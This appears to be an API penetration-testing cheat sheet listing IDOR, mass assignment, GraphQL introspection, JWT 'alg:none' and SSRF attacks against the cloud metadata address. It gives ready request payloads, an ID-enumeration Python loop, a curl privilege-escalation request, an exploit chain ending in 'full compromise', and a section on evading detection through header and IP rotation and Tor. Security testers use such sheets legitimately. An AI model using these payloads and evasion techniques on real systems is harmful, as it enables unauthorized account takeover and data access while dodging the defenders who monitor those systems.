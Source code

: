 

# VULNERABILITY TYPES & EXPLOITATION

## IDOR (Insecure Direct Object Reference)

- Mechanism: Missing object-level authorization
- Test: Sequential/pattern ID manipulation
- Exploit:

```javascript
  GET /api/user/123 → 200 OK
  GET /api/user/456 → 200 OK (Unauthorized access)
```

- Tools: Burp Repeater, Python requests

## Mass Assignment

- Mechanism: Overprivileged object binding
- Test: Add privileged parameters (role, isAdmin)
- Exploit:

```javascript
  POST /api/users
  {"email":"user@test.com","role":"admin"}
```

- Tools: Postman, curl

## GraphQL Abuse

- Mechanism: Excessive data exposure
- Test: Introspection queries
- Exploit:

```javascript
 query {__schema{types{name,fields{name}}}
```

- Tools: GraphQLmap, Altair

## JWT Issues

- Mechanism: Weak crypto/validation
- Test: Algorithm substitution (none/HS256)
- Exploit:

```json
Header: {"alg":"none"}
  Payload: {"user":"admin"}
```

- Tools: jwt_tool, Burp JWT Editor

## SSRF via Webhooks

- Mechanism: Unrestricted URL fetching
- Test: Internal endpoint probing
- Exploit:

```javascript
POST /api/webhook
  {"url":"http://169.254.169.254"}
```

- Tools: Collaborator, Interactsh

# ENDPOINT DISCOVERY METHODS

- Directory fuzzing: ffuf -w wordlist.txt -u `https://target.com/api/FUZZ`
- JS analysis: Extract endpoints from `/static/main.js`
- Documentation: Check `/swagger.json`, `/openapi.yaml`
- Mobile apps: Use `MobSF for APK analysis`

# ESSENTIAL TOOLS

| Tool          | Primary Use                | Command Example                  |
|---------------|----------------------------|----------------------------------|
| Burp Suite    | Request manipulation       | Send to Repeater/Intruder        |
| ffuf          | Endpoint discovery         | ffuf -w api_words.txt -u URL/FUZZ|
| Postman       | API chain testing          | Environment variables            |
| GraphQLmap    | GraphQL exploitation       | dump schema, field suggestions   |
| jwt_tool      | JWT manipulation           | python3 jwt_tool.py <JWT> -T     |

# EXPLOIT CODE SNIPPETS

# IDOR Testing (Python)

```python
import requests
for id in range(1000,1002):
    r = requests.get(f'https://target.com/api/user/{id}', 
                    headers={'Authorization': 'Bearer TOKEN'})
    print(f"{id}: {len(r.text)} chars")
```

# Mass Assignment (curl)

```bash
curl -X POST 'https://target.com/api/users' \
-H 'Content-Type: application/json' \
-d '{"email":"attacker@evil.com","is_admin":true}'
```

# GraphQL Introspection

```graphql
query GetEverything {
  __schema {
    types {
      name
      fields {
        name
      }
    }
  }
}
```

# DEFENSE EVASION TECHNIQUES

- Request spacing: time.sleep(3) between calls
- Header rotation: Cycle User-Agent/X-Forwarded-For
- TLS fingerprinting: Mimic mobile app clients
- IP rotation: Proxy chains/Tor

# CRITICAL CHECKS

✓ Test all HTTP methods (GET/POST/PUT/PATCH/DELETE)
✓ Verify parameter pollution (param=1&param=2)
✓ Check .json/.xml alternatives (/api/users.json)
✓ Tamper with Content-Type headers

# Exploit Chain Example

1. Find /api/users/[ID] endpoint via fuzzing
2. Discover IDOR vulnerability
3. Extract admin ID via enumeration
4. Use mass assignment on /api/admin/profile
5. Achieve full compromise

# PRO TIPS

• Always test API versions (v1 vs v2 auth)
• Capture mobile app traffic with MITMproxy
• Chain IDOR + JWT issues for account takeover
• Check for debug endpoints (/api/test, /dev)
